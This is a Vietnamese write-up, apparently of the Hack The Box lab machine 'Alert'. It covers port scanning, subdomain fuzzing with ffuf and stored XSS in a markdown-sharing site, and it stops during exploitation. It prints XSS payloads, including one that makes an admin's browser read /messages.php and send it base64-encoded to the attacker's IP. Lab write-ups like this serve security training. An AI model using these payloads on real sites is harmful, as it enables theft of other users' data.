 <img width="840" height="964" alt="image" src="https://github.com/user-attachments/assets/f3db5f93-8b91-4227-9344-f95f259af595" /># Alert

Tôi dùng lệnh `nmap -sV 10.10.11.44` để scan các port thì có 80 và 22:

<img width="997" height="329" alt="image" src="https://github.com/user-attachments/assets/b816aa11-7185-4c98-a15a-9102fbe62055" />

Truy cập vào thì ra url `http://alert.htb/` 

<img width="1793" height="1000" alt="image" src="https://github.com/user-attachments/assets/b4b147f2-3d87-4abf-8429-bf8a88a84960" />

Trong quá trình fuzz thì tôi tìm thêm được `messages.php` nhưng không biết là nhận tham số gì:

<img width="869" height="974" alt="image" src="https://github.com/user-attachments/assets/e1aa48d3-e038-4fd7-ac76-dba2d038ae82" />

Dò bằng `arjun -u "http://alert.htb/messages.php"` nhưng không ra, tôi sẽ để đây vậy

<img width="865" height="359" alt="image" src="https://github.com/user-attachments/assets/8c59a6dc-8f55-482f-ac38-a83fec895dcd" />

##

Tôi dùng ffuf thì fuzz được thêm 1 cái subdomain là `http://statistics.alert.htb/` :
```
ffuf -u http://10.10.11.44/ -H 'Host: FUZZ.alert.htb' -w wordlist/subdomains-top1mil-20000.txt -mc 200,301,302,307,401,403 -ac -t 100
```

<img width="1593" height="572" alt="image" src="https://github.com/user-attachments/assets/35c2fa74-8350-4c1b-b378-ce73ea5ea9be" />

<img width="1825" height="723" alt="image" src="https://github.com/user-attachments/assets/04015b84-1c65-44e1-b7ed-412ad7f9c339" />

Nó yêu cầu username và mật khẩu nhưng tôi không biết, quay lại tiếp tục khám phá website kia 

Qua qua về website `http://alert.htb/` thì website này có chức năng render markdown và cso thể share được:
```
<script>alert(window.origin)</script>
```

<img width="1246" height="315" alt="image" src="https://github.com/user-attachments/assets/4abf5af5-db90-442e-abd1-f02dbe1ea81e" />

Và có thể gửi được request đi:
```
<script>fetch("http://10.10.14.5:1234/")</script>
```

<img width="1689" height="761" alt="image" src="https://github.com/user-attachments/assets/c2bf9043-e653-48f6-82e8-f37841558cba" />

Tôi ấn vào nút `share markdown` và lấy được link để share `http://alert.htb/visualizer.php?link_share=68af1d454a2504.61150899.md`, tôi thử vào sử dụng chức năng contact và gửi cho admin xem sao và đã trả lại 
response về, suy ra là bên contact có ấn vào đường link tôi gửi, tôi thử xem nội dung của 1 số đường dẫn đặc biệt bên admin xem có gì không, ví dụ như:
```
<script>fetch('/messages.php').then(r => r.text()).then(d => { let b64 = btoa(d); new Image().src='http://10.10.14.5:1234/?data=' + b64; })</script>
```
